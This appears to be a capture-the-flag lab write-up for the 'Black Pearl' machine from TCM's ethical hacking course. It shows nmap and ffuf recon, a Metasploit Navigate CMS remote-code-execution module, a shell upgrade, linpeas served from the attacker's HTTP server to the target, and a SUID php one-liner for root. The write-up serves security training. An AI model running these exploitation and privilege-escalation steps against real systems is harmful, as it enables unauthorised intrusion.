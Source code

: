 ```yaml
---
title: Black Pearl
publishDate: 2023-02-19 00:00:00
img: "https://res.cloudinary.com/drup8mw79/image/upload/v1676852363/darthassan/posts/urvan-taillebuis-blackpearl-03_etysfo.jpg"
img_alt: The black pearl pirate ship
description: |
  The Black Pearl is a capstone project for TCM's Practical Ethical Hacking course.
tags:
  - PEH
  - Metasploit
  - Previlege Excalation
---
```


### Nmap scan

```zsh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid:
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Directory Busting with ffuf

```zsh
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.82.145/FUZZ
```

### DNS recon

```zsh
┌──(kali㉿kali)-[~]
└─$ dnsrecon -r 127.0.0.0/24 -n 192.168.82.145 -d i
[*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
[+]      PTR blackpearl.tcm 127.0.0.1
[+] 1 Records Found


┌──(kali㉿kali)-[~]
└─$ sudo nano /etc/hosts

```

##### Directory Busting with ffuf

###### http://blackpearl.tcm

```
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ
```

#### Metasploit

```
msf > use exploit/multi/http/navigate_cms_rce
msf6 exploit(multi/http/navigate_cms_rce) > set rhosts 192.168.82.145
msf6 exploit(multi/http/navigate_cms_rce) > set vhost blackpearl.tcm
msf6 exploit(multi/http/navigate_cms_rce) > exploit
```

- _Get tty_
  `python -c 'import pty; pty.spawn("/bin/bash")'`

#### Previlege Excalation

- Linpeas

```
┌──(kali㉿kali)-[~/transfers]
└─$ ls
linpeas.sh  pspy64  winpeas.exe  Wise.exe

┌──(kali㉿kali)-[~/transfers]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.82.145 - - [07/Sep/2022 00:57:49] "GET /linpeas.sh HTTP/1.1" 200 -

```

- Exploiting suid and sgid using [gtfobins](https://gtfobins.github.io/gtfobins/php/) for php vulnerability
  `/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`

``
